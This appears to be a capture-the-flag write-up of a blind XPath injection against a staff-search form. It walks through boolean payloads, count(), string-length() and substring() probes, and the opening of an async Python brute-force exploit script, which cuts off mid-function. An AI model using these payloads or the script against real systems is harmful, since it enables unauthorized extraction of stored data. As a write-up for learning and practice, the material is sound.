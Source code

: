 It is a basic XML file, only interesting information is that the flag is split across several `<selfDestructCode>` elements in the XML.

On the web page, there is a simple form that asks for a staff member name, and responds with a boolean response of whether or not there is a staff member with that name. There is also another page on the site called "Leaderboard" which has some names of staff members on it. Trying these on the form yields a successful response, but random values return a failed response. 

If I try a basic XPATH injection such as `' OR 1=1 OR 'a'='` a successful response is returned. Changing the numbers to be not equal returns a failed response, showing that XPATH injection works. Using `OR 'a'='` is useful because this expands to become `OR 'a'=''` which will always be false, effectively becoming "or false" which will not change the result of the previous segment of the query. 

The `count()` function also works, injecting `' OR count(//selfDestructCode)=2 OR 'a'='` is successful, confirming there are 2 self destruct codes. I found the number 2 by trying 1, then 2. You can keep incrementing this number to bruteforce the result of an integer function. 

I made a python script to automate this guessing. I can also use the `string-length()` function to bruteforce the length of each self destruct code using the same method. I can access the length of the nth self destruct code using `(//selfDestructCode)[n]` where n is an integer. Careful, `//selfDestructCode[n]` means "find a self destruct code that is the nth child in its parent element" which will lead to unexpected results. 

Next, I need to extract each character of the flag. You can get the ith char of the nth self destruct code using `substring((//selfDestructCode)[n],i,1)`. I tried to convert the character to an integer and bruteforce using the above method, but that didn't work, so I just used string literals in the query, such as `'a'`, `'b'`, etc. 

I packaged this up into a python script. I made it multithreaded using asyncio to speed it up and used carriage returns to make the output pretty. Here is my exploit script: 
```py
import asyncio
import sys
import traceback
import string
from concurrent.futures import ThreadPoolExecutor
from multiprocessing import cpu_count

import aiohttp


async def employee_exists(ip, emp):
    # print(f"{emp!r}")
    async with aiohttp.ClientSession() as s:
        async with s.post(
            ip + "/api/search", json={"search": emp}, raise_for_status=True
        ) as r:
            data = await r.json()
            verdict = data.get("success") == 1
            print(f"\r{emp} {verdict}", end="", flush=True)
            # print(f"{emp} {verdict} {data}")
            return verdict


async def brute_int_val(ip, query):
    i = 0
    while True:
        if await employee_exists(ip, f"' or {query}={i} or 'a'='b"):
            return i
        i += 1


def run(corofn, *args):
    loop = asyncio.new_event_loop()
    try:
        coro = corofn(*args)
```